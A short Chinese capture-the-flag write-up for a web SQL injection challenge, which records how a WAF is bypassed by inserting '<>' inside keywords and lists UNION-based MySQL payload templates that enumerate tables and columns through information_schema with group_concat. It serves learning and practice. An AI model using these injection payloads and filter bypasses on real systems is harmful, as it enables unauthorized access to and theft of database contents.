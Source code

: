 ```yaml
---
title: SQL-出题人就告诉你这是个注入
date: 2017-12-31 00:00:00
categories:
- CTF/Web
tags: 百度杯九月第二场
---
```


## 解题过程
### 观察
- url就一个参数id，页面提示信息`flag{在数据库中}`   
- 提交`%20and%201=1`被ichunqiu的waf拦截
- 提交`and%201=1`页面提示`inj code!`
- 观察页面源码可以看到当前所执行的SQL语句
### 测试
- 试验一堆字符，测试得到<>直接被过滤，便绕过waf和注入判定
### 注入
$字段个数 = `order by num`

$可见的字段=`union select 1,2,....,n`

$表名=`union select 1,group_concat(table_name),....n from information_schema.tables where table_schema=database()`

$列名`union select 1,group_concat(column_name),....n from information_schema.columns where table_name=0x$表名的十六进制`

`union select 1,$列名,....n from $表名` 

### Payload
- 利用<>插入在关键字当中绕过过滤

## 知识小结
- mysql中group_concat函数的使用
- mysql5.0以上版本的information_schema库
- waf花式绕过
